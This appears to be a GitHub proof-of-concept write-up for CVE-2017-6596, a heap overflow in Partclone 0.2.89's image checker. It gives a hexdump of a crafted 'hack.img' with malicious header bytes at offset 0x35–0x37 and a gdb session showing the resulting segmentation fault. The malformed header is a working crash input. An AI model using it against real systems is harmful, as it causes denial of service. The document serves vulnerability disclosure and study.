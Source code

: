 # Partclone_HeapOverFlow (DoS) - patched

CVE Reference : https://www.cvedetails.com/cve/CVE-2017-6596/

Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

It causes Memory crash and Denial-Of-Service.
<br><br>

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more

00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|

00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|

00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|

00000030  c8 2f 03 00 00 <B>ff ff ff</B>  ba 7a 00 00 00 00 00 00  |./.......z......|

00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

<br><br>

(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

<br><br>
root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img

Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".

Partclone v0.2.89 http://partclone.org

Starting to check image (hack.img)

we need memory: 137438984768 bytes


image head 4160, bitmap 137438979580, crc 1028 bytes


Calculating bitmap... Please wait... image_hdr : 10000032fc8


totalblock size : 1099511836616


<B>Program received signal SIGSEGV, Segmentation fault.</B>

0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53


53              bitmap[offset] &= ~(1UL << bit);


(gdb) x/x bitmap


0x8057d38:      0xffffffff


(gdb) p bitmap


$1 = (unsigned long *) 0x8057d38


(gdb) x/x bitmap+offset


<B>0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area</B>

(gdb) p offset


$2 = 31922


(gdb)

